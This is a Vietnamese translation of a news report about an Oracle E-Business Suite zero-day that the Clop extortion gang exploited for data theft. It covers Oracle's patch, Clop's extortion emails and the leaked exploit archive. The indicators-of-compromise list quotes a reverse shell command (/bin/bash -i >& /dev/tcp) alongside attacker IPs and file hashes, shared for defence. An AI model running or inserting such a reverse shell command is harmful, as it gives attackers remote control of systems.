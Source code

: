 # Oracle vá lỗ hổng zero-day EBS bị Clop lợi dụng trong các vụ đánh cắp dữ liệu

![Oracle](https://www.bleepstatic.com/content/hl-images/2025/03/21/Oracle.jpg)

Oracle đang cảnh báo về một lỗ hổng zero-day nghiêm trọng trong E-Business Suite được theo dõi là CVE-2025-61882 cho phép kẻ tấn công thực hiện thực thi mã từ xa không xác thực, với lỗ hổng đang bị lợi dụng tích cực trong các vụ đánh cắp dữ liệu của Clop.

Lỗ hổng nằm trong sản phẩm Oracle Concurrent Processing của Oracle E-Business Suite (component: BI Publisher Integration) và có điểm cơ sở CVSS là 9.8, do không yêu cầu xác thực và dễ bị khai thác.

"This Security Alert addresses vulnerability CVE-2025-61882 in Oracle E-Business Suite," đọc một thông báo mới từ Oracle.

"This vulnerability is remotely exploitable without authentication, i.e., it may be exploited over a network without the need for a username and password. If successfully exploited, this vulnerability may result in remote code execution."

Oracle đã xác nhận rằng lỗ hổng zero-day ảnh hưởng tới Oracle E-Business Suite, các phiên bản 12.2.3-12.2.14, và đã phát hành một [emergency update](https://support.oracle.com/rs?type=doc&id=3106344.1) để khắc phục lỗ hổng. Công ty lưu ý rằng khách hàng phải cài đặt trước bản October 2023 Critical Patch Update trước khi có thể cài các bản cập nhật bảo mật mới này.

## Zero-day bị lợi dụng trong các vụ đánh cắp dữ liệu của Clop

Mặc dù Oracle không nói rõ đây là lỗ hổng zero-day, họ đã chia sẻ các chỉ số xâm phạm (IOCs) khớp với một exploit Oracle EBS gần đây được các tác nhân đe dọa chia sẻ trên Telegram.

Charles Carmakal, CTO, Mandiant - Google Cloud, cũng xác nhận rằng đây là lỗ hổng đã bị nhóm tống tiền Clop lợi dụng trong các vụ đánh cắp dữ liệu xảy ra vào tháng 8 năm 2025.

"Clop exploited multiple vulnerabilities in Oracle EBS which enabled them to steal large amounts of data from several victim in August 2025," Carmakal chia sẻ trong một tuyên bố với BleepingComputer.

"Multiple vulnerabilities were exploited including vulnerabilities that were patched in Oracle's July 2025 update as well as one that was patched this weekend (CVE-2025-61882)," tiếp tục Carmakal.

CVE-2025-61882 là lỗ hổng nghiêm trọng (CVSS 9.8) cho phép thực thi mã từ xa không xác thực.

Tin về chiến dịch tống tiền mới nhất của Clop lần đầu tiên xuất hiện tuần trước, khi Mandiant và Google Threat Intelligence Group (GTIG) báo cáo rằng họ đang [theo dõi một chiến dịch mới](https://www.bleepingcomputer.com/news/security/clop-extortion-emails-claim-theft-of-oracle-e-business-suite-data/) trong đó nhiều công ty nhận được email tuyên bố là từ các tác nhân đe dọa.

Những email này tuyên bố rằng Clop đã đánh cắp dữ liệu từ hệ thống Oracle E-Business Suite của công ty và yêu cầu tiền để không công bố dữ liệu đã bị đánh cắp.

"We are CL0P team. If you haven't heard about us, you can google about us on internet," là nội dung email tống tiền được chia sẻ với BleepingComputer.

"We have recently breached your Oracle E-Business Suite application and copied a lot of documents. All the private files and other information are now held on our systems."

![Clop extortion email](https://www.bleepstatic.com/images/news/security/c/clop/oracle-e-business-suite-extortion/clop-oracle-extortion-email.jpg)

**Clop extortion email**  
_Source: Google_

Nhóm tống tiền Clop có lịch sử lâu dài trong việc lợi dụng các lỗ hổng zero-day để thực hiện các vụ đánh cắp dữ liệu quy mô lớn, bao gồm:

* **2020:** Lợi dụng một [zero-day trong nền tảng Accellion FTA](https://www.bleepingcomputer.com/tag/accellion/), ảnh hưởng gần 100 tổ chức.
* **2021:** Lợi dụng một [zero-day trong SolarWinds Serv-U FTP](https://www.bleepingcomputer.com/news/security/clop-gang-exploiting-solarwinds-serv-u-flaw-in-ransomware-attacks/) software.
* **2023:** Lợi dụng một [zero-day trong nền tảng GoAnywhere MFT](https://www.bleepingcomputer.com/news/security/fortra-shares-findings-on-goanywhere-mft-zero-day-attacks/), xâm nhập hơn 100 công ty.
* **2023:** Lợi dụng một [zero-day trong MOVEit Transfer](https://www.bleepingcomputer.com/news/security/clop-ransomware-claims-responsibility-for-moveit-extortion-attacks/) — chiến dịch lớn nhất của Clop đến nay, cho phép [đánh cắp dữ liệu từ 2,773 tổ chức trên toàn thế giới](https://www.emsisoft.com/en/blog/44123/unpacking-the-moveit-breach-statistics-and-analysis/).
* **2024:** Lợi dụng [hai zero-day của Cleo file transfer (CVE-2024-50623 và CVE-2024-55956)](https://www.bleepingcomputer.com/news/security/clop-ransomware-claims-responsibility-for-cleo-data-theft-attacks/) để đánh cắp dữ liệu và tống tiền các công ty.

Clop sau đó xác nhận với BleepingComputer rằng họ đứng sau các email tống tiền và cho biết họ đã lợi dụng một zero-day của Oracle để đánh cắp dữ liệu.

"Soon all will become obvious that Oracle bugged up their core product and once again, the task is on clop to save the day," Clop nói với BleepingComputer, ám chỉ rằng một lỗ hổng mới đã bị khai thác.

Tuy nhiên, [Oracle ban đầu liên kết chiến dịch tống tiền của Clop](https://www.bleepingcomputer.com/news/security/oracle-links-clop-extortion-attacks-to-july-security-flaws/) với các lỗ hổng đã được vá trong tháng 7 năm 2025 thay vì lỗ hổng zero-day mới mà giờ đây chúng ta biết đã được sử dụng trong các cuộc tấn công.

Oracle hiện đã chia sẻ các chỉ số xâm phạm cho việc khai thác zero-day, bao gồm hai địa chỉ IP được quan sát khai thác các máy chủ, một lệnh để mở shell từ xa, và kho lưu trữ exploit cùng các tệp liên quan.

* 200[.]107[.]207[.]26 - IP address associated with observed exploitation. (HTTP GET and POST requests)
* 185[.]181[.]60[.]11 - IP address associated with observed exploitation. (HTTP GET and POST requests)
* sh -c /bin/bash -i >& /dev/tcp// 0>&1 - Command executed by exploit to open a reverse shell.
* [76b6d36e04e367a2334c445b51e1ecce97e4c614e88dfb4f72b104ca0f31235d](http://www.virustotal.com/gui/file/76b6d36e04e367a2334c445b51e1ecce97e4c614e88dfb4f72b104ca0f31235d) - oracle_ebs_nday_exploit_poc_scattered_lapsus_retard_cl0p_hunters.zip (Exploit archive)
* [aa0d3859d6633b62bccfb69017d33a8979a3be1f3f0a5a4bf6960d6c73d41121](http://www.virustotal.com/gui/file/aa0d3859d6633b62bccfb69017d33a8979a3be1f3f0a5a4bf6960d6c73d41121) - oracle_ebs_nday_exploit_poc_scattered_lapsus_retard-cl0p_hunters/exp.py (Part of exploit)
* [6fd538e4a8e3493dda6f9fcdc96e814bdd14f3e2ef8aa46f0143bff34b882c1b](http://www.virustotal.com/gui/file/6fd538e4a8e3493dda6f9fcdc96e814bdd14f3e2ef8aa46f0143bff34b882c1b) - oracle_ebs_nday_exploit_poc_scattered_lapsus_retard-cl0p_hunters/server.py (Part of exploit)

## Exploit bị rò rỉ bởi Scattered Lapsus$ Hunters

Trong khi Clop là nhóm đứng sau các vụ đánh cắp dữ liệu và việc khai thác zero-day của Oracle, tin về zero-day lần đầu xuất phát từ một nhóm tác nhân đe dọa khác, những người gần đây cũng [gây chú ý](https://www.bleepingcomputer.com/tag/shinyhunters/) với các vụ [đánh cắp dữ liệu trên khách hàng Salesforce](https://www.bleepingcomputer.com/news/security/shinyhunters-starts-leaking-data-stolen-in-salesforce-attacks/).

Vào thứ Sáu, các tác nhân tự xưng là "Scattered Lapsus$ Hunters" vì họ tuyên bố bao gồm các tác nhân từ Scattered Spider, Lapsus$, và ShinyHunters, đã rò rỉ hai tệp trên Telegram mà họ nói là có liên quan tới các cuộc tấn công của Clop.

Một tệp tên "GIFT_FROM_CL0P.7z" chứa mã nguồn Oracle có vẻ liên quan tới "support.oracle.com" dựa trên tên tệp.

Tuy nhiên, các tác nhân đe dọa cũng phát hành một kho lưu trữ "ORACLE_EBS_NDAY_EXPLOIT_POC_SCATTERED_LAPSUS_RETARD_CL0P_HUNTERS.zip", mà theo tên tệp họ ám chỉ đó là exploit Oracle E-Business được Clop sử dụng.

![Oracle E-Business exploit for zero-day flaw](https://www.bleepstatic.com/images/news/security/o/oracle/ebs-zero-day/oracle-e-business-exploit-leak.jpg)

**Oracle E-Business exploit for zero-day flaw**

BleepingComputer đã xác nhận rằng đây là cùng một tệp được liệt kê trong các chỉ số xâm phạm của Oracle.

Kho lưu trữ này chứa một tệp readme.md hướng dẫn và hai script Python tên exp.py và server.py. Các script Python này được sử dụng để khai thác một phiên bản Oracle E-Business Suite dễ bị tổn thương và thực thi một lệnh tùy ý hoặc mở một reverse shell trở lại các máy chủ của tác nhân đe dọa.

Do IOCs được Oracle chia sẻ liệt kê tên kho exploit do Scattered Lapsus$ Hunters chia sẻ, giờ đây đã xác nhận rằng đây là exploit được nhóm tống tiền Clop sử dụng.

Tuy nhiên, điều này đặt ra câu hỏi về cách các tác nhân Scattered Lapsus$ Hunters có được exploit và liệu họ có làm việc với Clop theo một hình thức nào đó hay không.

BleepingComputer đã liên hệ với đại diện từ cả ShinyHunters và Clop để hỏi về mối quan hệ này, nhưng chưa nhận được phản hồi tại thời điểm này.